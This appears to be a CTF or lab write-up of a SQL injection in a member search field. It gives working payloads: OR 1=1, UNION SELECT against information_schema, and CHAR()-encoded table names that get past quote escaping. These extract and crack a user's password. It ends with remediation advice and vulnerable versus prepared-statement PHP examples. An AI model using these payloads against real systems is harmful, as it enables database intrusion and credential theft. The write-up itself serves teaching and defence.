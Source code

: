 ## How did we found it

Test if member search id input have sql injection breach with ```42 OR 1=1```. With this sql we found `Flag` as First name for the user id 5.
tried to find the user table with ```(SELECT * FROM table_name)```,
then search the columns names of the table with ```42 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name=CHAR(117, 115, 101, 114, 115)```.
`CHAR(117, 115, 101, 114, 115)` correspond to `users` because we can't write `'users'`, the `'` and `"` char are escaped.
Then with ```42 UNION SELECT 1, (SELECT CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) FROM users WHERE user_id=5)``` we got a password.
We cracked password with `https://crackstation.net` and lowercase it, then encrypt it with sh256.

## How to fix it
In the backend, the sql request need to be prepared, in this case sql can't be injected
Don't print sql error message, print only column (by name) who is waited

## PHP exemple
### bad php

```
$conn = new mysqli("localhost", "username", "password", "database");
$result = $conn->query("SELECT * FROM users WHERE username = '$username'");
while($row = $result->fetch_assoc())
{
    echo "id: " . $row["id"]. " - Nom: " . $row["username"]. "<br>";
}
```

### good php

```
$bdd = new PDO ('mysql:host=HOST_SQL;dbname=NAME_DB;charset=utf8', 'SQL_USERNAME', 'SQLPASSWORD' , array(PDO::MYSQL_ATTR_INIT_COMMAND => 'SET NAMES utf8'));
$req = $bdd->prepare("SELECT NAME_COLUMN_1, NAME_COLUMN_2 FROM `users` WHERE user_id LIKE ?");
$req->execute(array(htmlspecialchars($ID_USER_VAR)));
foreach ($req as $donnee)
{
	echo $donnee["NAME_COLUMN_1"];
	echo $donnee["NAME_COLUMN_2"];
}
```